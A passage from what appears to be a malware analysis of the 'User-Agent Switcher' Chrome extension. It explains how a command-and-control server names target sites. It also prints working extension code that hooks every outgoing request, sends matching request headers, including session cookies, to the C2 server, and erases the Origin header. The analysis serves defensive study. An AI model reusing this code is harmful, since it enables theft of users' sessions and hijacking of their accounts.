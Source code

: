 #### Capturing the Request & Overwriting the Origin

The second event hook that is added to the socket is to process `handlerData` events, which list hosts that User-Agent Switcher would like to intercept headers on outgoing requests for - capturing session cookies, User-Agent strings, and more. Did you remember? This was actually the first malicious event we received from the server in the [Initial Contact & Socket.IO](#initial-contact--socketio) section, though it didn't do anything immediately, it was eventually the reason that headers were stolen for Instagram but not Facebook:

```
["handlerData",{"type":"xmlhttprequest","url":"instagram.com"}]
```

User-Agent Switcher also registers a function titled `handler2` which is invoked on all outgoing web requests before the headers are sent, doing two important functions:
- Checking to see if the domain that a request is being made for is in our local `handlerData` object, and if so, sending an event via `emit()` to the Command and Control server with the headers of the request.
- Removing any "obfuscating" `-zzz` strings in header parameters from `createFetch` events, and reconstructing the headers afterwards. This has a side (or perhaps main) benefit of overwriting the headers that Chrome had automatically built for the request, quietly erasing the `Origin` header (see notes from the [Malicious Operations on Facebook](#malicious-operations-on-facebook) subsection) which would have shown that this request came from an extension.

```js
var handlerData = {};
userAgentSwitch.on("handlerData", function(e) {
    handlerData = e
});

var handler2 = function(e) {
    var t = Object.keys(handlerData);
    if (t.length > 0) {
        var s = !0;
        for (let n = 0; n < t.length; n++) {
            let r = t[n];
            if (re = new RegExp(handlerData[r], "gi"), null == e[r].toString().match(re)) {
                s = !1;
                break
            }
        }
        s && userAgentSwitch.emit("requestHeadersHandler", e)
    }
    return {
        requestHeaders: JSON.parse(JSON.stringify(e.requestHeaders.reverse()).split("-zzz").join(""))
    }
};
chrome.webRequest.onBeforeSendHeaders.addListener(handler2, {
    urls: ["<all_urls>"]
}, ["requestHeaders", "blocking", "extraHeaders"]), runAppStart(), setIconAndText();
```

#### Data Flow
